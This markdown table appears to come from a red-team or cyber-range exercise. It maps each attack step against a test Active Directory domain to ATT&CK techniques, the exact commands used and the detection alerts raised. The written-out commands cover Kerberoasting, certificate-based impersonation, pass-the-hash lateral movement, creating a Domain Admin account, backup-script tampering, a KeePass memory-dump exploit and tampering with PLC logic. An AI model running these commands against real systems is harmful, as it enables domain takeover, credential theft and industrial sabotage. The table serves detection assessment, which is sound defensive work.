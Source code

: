 | AV7 | User accounts with SPN set | T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting<br>T1078.002 - Valid Accounts: Domain Accounts | `nxc ldap 10.0.2.11 -d PLUMETECH -u debbie -p 'XXXXXXXX' --kerberoasting krb.txt` | Technique<br>Technique | `Suspicious LDAP search (Kerberos misconfiguration)IDPEvent`<br>`"A user executed a suspicious LDAP search looking for Kerberos misconfigurations`<br>`"threat.technique.id[0]":"T1558","threat.technique.name[0]":"Steal or Forge Kerberos Tickets"`<br>`"UserName\":\"debbie@PLUMETECH.LOCAL\` |
| N/A | Discover Domain User Description | T1087.002 - Account Discovery: Domain Account<br>T1078.002 - Valid Accounts: Domain Accounts | `nxc ldap 10.0.2.11 -d PLUMETECH -u calvin -p 'XXXXXXXX' -M get-desc-users` | None<br>None |  |
| N/A | Request certificate with alternate UPN | T1649 - Steal or Forge Authentication Certificates<br>T1078.002 - Valid Accounts: Domain Accounts | `certipy-ad find -u calvin -p XXXXXXXX -dc-ip 10.0.2.11`<br>`certipy-ad req -target-ip 10.0.2.11 -upn "marla@plumetech.local" -u calvin@plumetech.local -p XXXXXXXX -template "Smartcard" -ca PLUMETECH-DC1-CA -sid "S-1-5-21-514844351-3181471642-2638765006-1116"`<br>`certipy-ad auth -pfx marla.pfx -dc-ip 10.0.2.11 -domain PLUMETECH.LOCAL` | Technique<br>Technique | `Suspicious LDAP search (AD-CS reconnaissance)`<br>`threat.technique.id[0]":"T1046","threat.technique.name[0]":"Network Service Discovery"`<br>`A lower-privileged entity performed an unusual Kerberos certificate-based authentication to a higher-privileged entity, which might indicate a malicious activity`<br>`"threat.technique.id[0]":"T1649","threat.technique.name[0]":"Steal or Forge Authentication Certificates"`<br>`username\":\"calvin@PLUMETECH.LOCAL\"` |
| N/A | Move laterally using psexec-like tool | T1021.002 - Remote Services: SMB/Windows Admin Shares<br>T1550.002 - Use Alternate Authentication Material: Pass the Hash | `git clone https://github.com/sensepost/susinternals`<br>`cd susinternals`<br>`python3 psexecsvc.py PLUMETECH/marla@10.0.2.11 -hashes XXXXXXXX:XXXXXXXX -system` | None<br>None |  |
| FLAG1 | Create Domain Admin user | T1136.002 - Create Account: Domain Account | `net user plumber XXXXXXXX /domain /add & net group "Domain Admins" plumber /add & net user fernando XXXXXXXX /domain` | Technique | `"A user received new privileges`<br>`threat.tactic.name[0]":"Privilege Escalation","threat.technique.id[0]":"T1078","threat.technique.name[0]":"Valid Accounts"`  |
| AV11 | Lateral Movement to Jump Host (JUMP) using RDP | T1021.004 - Remote Services: SSH<br>T1078.002 - Valid Accounts: Domain Accounts<br>T1021.001 - Remote Services: Remote Desktop Protocol | `ssh -L 3390:10.0.2.44:3389 -p2022 kali@cup.stealth.ait.ac.at -i C:\Users\hacker\Downloads\ssh_key.pem`<br>`mstsc.exe` | None<br>None<br>None | |
| AV13 | Tampering of Backup Script | T1053.005 - Scheduled Task/Job: Scheduled Task | added `net user Administrator XXXXXXXX` to `Backup.ps1` | None | |
| AV15 | Exploiting CVE-2023-32784 in KeePass.exe | T1555.005 - Credentials from Password Stores: Password Managers | Dump KeePass.exe using `taskmgr.exe`<br>`.\keepass-dump-extractor.exe .\KeePass.DMP` | General | ` A process appears to be accessing credentials and might be dumping passwords. If this is unexpected, review the process tree.`<br>`tactic: Credential Access; tactic_id: TA0006; technique: OS Credential Dumping; technique_id: T1003` |
| AV21 | Lateral Movement to the Engineering Workstation (ENG) | T1078.002 - Valid Accounts: Domain Accounts<br>T1021.001 - Remote Services: Remote Desktop Protocol | `mstsc.exe` | None<br>None |  |
| AV27 | PLC IDE Access on the Engineering Workstation | T1078.002 - Valid Accounts: Domain Accounts<br>T1039 - Data from Network Shared Drive | PLCNext | None<br>None | |
| AV28<br>FLAG2 | Modification of Program Logic | T0836 - Modify Parameter | PLCNext | None | Detection only triggers on direct access to PLC on port 420 |





